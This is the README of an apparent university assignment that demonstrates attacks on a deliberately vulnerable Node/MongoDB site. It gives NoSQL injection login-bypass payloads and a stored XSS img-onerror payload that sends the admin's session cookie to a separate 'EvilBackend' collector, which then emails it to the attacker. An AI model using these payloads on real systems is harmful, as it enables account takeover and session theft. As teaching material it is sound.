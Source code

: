 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
  
```console
npm install
nodemon index.js
```
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL by specifying MONGO_URL value in .env file.</b>

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
To run the backend server, navigate to the directory and run the following commands:<be>

```console 
npm install
nodemon index.js
```
<b>Make sure to specify EMAIL_TOKEN, EMAIL_FROM, EMAIL_TO, EMAIL_PASSWORD values in .env file.</b>

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
